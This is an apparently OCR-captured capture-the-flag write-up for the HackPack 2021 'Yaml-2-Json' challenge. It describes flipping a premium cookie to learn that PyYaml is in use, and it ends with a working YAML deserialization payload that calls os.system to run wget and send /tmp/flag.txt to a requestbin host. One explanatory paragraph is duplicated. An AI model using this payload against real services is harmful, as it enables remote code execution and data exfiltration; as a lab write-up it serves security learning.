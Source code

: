 https://yaml-2-json.ctf2021.hackpack.club/

page offers a simple conversion from .yaml to .json

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin

| ![](https://i.ibb.co/hdJ3Kpg/Screenshot-2021-04-17-Yaml-2-Json-Hackpack-CTF-2021.png)

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin


```
{
	!!python/object/apply:os.system ["wget http://requestbin.net/r/1b9a6hxj/?`cat /tmp/flag.txt`"]
}

```
